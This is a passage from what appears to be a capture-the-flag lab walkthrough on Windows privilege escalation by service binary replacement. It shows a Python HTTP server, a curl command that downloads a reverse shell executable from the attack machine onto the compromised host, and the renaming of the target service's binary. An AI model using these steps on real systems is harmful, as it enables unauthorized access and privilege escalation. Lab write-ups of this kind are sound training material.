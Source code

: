 5. `python3 -m <MODULE>` from our attack machine to start a simple HTTP server on our local machine using Python 3's built in HTTP server module (`http.server`)
```Bash
root@ip-10-10-6-207:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

6. `curl <ATTACK MACHINE HTTP SERVER>:<PAYLOAD FILE PATH> -O <OUTPUT FILE>` from the compromised Windows machine to make an HTTP request to our previously set up Python server on our attack machine to download our previously generated reverse shell payload executable onto the compromised machine
```PowerShell
C:\Users\thm-unpriv>curl http://10.10.6.207:8000/ReverseShell.exe -O ReverseShell.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 48640  100 48640    0     0  48640      0  0:00:01 --:--:--  0:00:01  766k
curl: (6) Could not resolve host: ReverseShell.exe
```

7. `cd <BINARY_PATH_NAME LOCATION>` from the compromised Windows machine to change into the directory where the `BINARY_PATH_NAME` executable is located in
```PowerShell
C:\Users\thm-unpriv>cd C:\PROGRA~2\SYSTEM~1
```

8. `dir` from the compromised Windows machine to display all the files and directories that are in our current working directory to ensure that the payload was successfully downloaded, which it was
```PowerShell
C:\PROGRA~2\SYSTEM~1>dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\PROGRA~2\SYSTEM~1

[...]
03/25/2018  10:58 AM            98,720 WService.exe
[...]
              38 File(s)     11,144,869 bytes
               3 Dir(s)  14,788,710,400 bytes free
```

9. `move <PAYLOAD> <FILENAME>` from the compromised Windows machine to rename our target service's `BINARY_PATH_NAME` into a backup file
```PowerShell
C:\PROGRA~2\SYSTEM~1>move WService.exe WService.exe.bkp
        1 file(s) moved.
```

9. `dir` from the compromised Windows machine to display the files and directories that are in our current working directory to ensure that the executable was renamed
```PowerShell
C:\PROGRA~2\SYSTEM~1>dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\PROGRA~2\SYSTEM~1

[...]
03/25/2018  10:58 AM            98,720 WService.exe.bkp
[...]
              38 File(s)     11,144,869 bytes
               3 Dir(s)  14,779,236,352 bytes free
```
